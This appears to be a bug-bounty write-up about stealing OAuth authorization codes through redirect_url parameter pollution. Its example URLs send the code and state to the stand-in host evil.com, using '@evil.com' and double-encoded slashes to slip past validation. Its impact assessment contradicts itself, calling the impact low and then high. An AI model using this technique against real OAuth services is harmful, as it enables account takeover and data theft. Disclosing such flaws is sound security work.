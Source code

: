 # Steal the OAuth code or token with an open redirect because of a parameter pollution .

## How:

The application provides a service for third party applications to create an oauth app with it, Lets call our application example.com and the third party one third.com so third.com tells you that you can connect your example.com account with your current account, So inorder to do this the third.com has to ask example.com to make him an oauth application, This is just to demonstrate the feature .

So what happens after you clicking on signin with or connect using example.com, the third.com redirects you to example.com with a request like this ----> 
https://example.com/oauth/authorize?response_type=code&redirect_url=https://third.com/callback&state=[some value] , So by visiting this endpoint example.com will ask you to consent third.com then redirects you back to third.com with the oauth code .


So I thought about what will happen if I added another redirect_url parameter like this https://example.com/oauth/authorize?response_type=code&redirect_url=https://third.com/callback&redirect_url=https://evil.com&state=[some value], By doing this I found that example.com redirects me to third.com but with this intersting way https://third.com/callback/,https://evil.com?code=[some value]&state=[some value], Noticed the  ",http://evil.com", I intercepted the requests after clicking on consent and I have found the app sends the consent request with the two redirect_uri like this redirect_url=https://third.com/callback&redirect_uri=https://evil.com and the response of it is just 200 status code with the code and state in the body of the response.


So I knew that the problem of appending the two redirect_uri is not from the backend code but it's from the client side code, So I thought how can i get an openredirect by this clearly the client code adds the character "," before appending the two redirect_uri like this "=https://third.com/callback,https://evil.com", I thought about removing the https:// part from the second redirect_uri and add a dot charater like this ".evil.com" to make it look like a subdomain but I knew that the subdomain part can't has , or / .


So what about adding @ sign rather than using dot but ofcourse this didn't work also because if you redirected to endpoint like this https://third.com/callback/,@evil.com it won't redirect you to evil.com, So what is about encoding, If tou tried to paste this in a browser admin@evil.com you will see that a browser like firefox treats the first part befor @ as a user name so it's like conecting to a server using ssh if you tried it before, So leave the second redirect_uri with a value like this @evil.com and double encode the special characters in the first redirect_uri like this https://third.com%252Fcallback%252F .


Why double encode it? because, If you redirected to an endpoint like this https://third.com%2Fcallback%2F,@evil.com you will see that the browser translates %2F to / and still redirects you to third.com so to come across this, encode the / two times so that the first time the browser decode it %2F but the second time it won't decode it to / so that the final redirection will be like this https://third.com%2Fcallback%2F,@evil.vom?code=[some code]&state=[some state] and you will be redirected to evil.com with the oauth code and you succedded to steal the oauth code.


So where is the problem? at the backend however that it recieves the first redirect_uri like this https://third.com%252Fcallback%252F but what it does is that it double decodes it then validate it against the stored value and ofcourse it will be true so it will return the oauth code, but if it didn't double decode it won't be true so even if the user redirected to evil.com he won't be redirected with the oauth code so the impact is low .

Ehat is the impact? the impact is high this application provides oauth apps to third party applications so every third party application is affected by it, It can lead to account takeover or sensitive data leak .


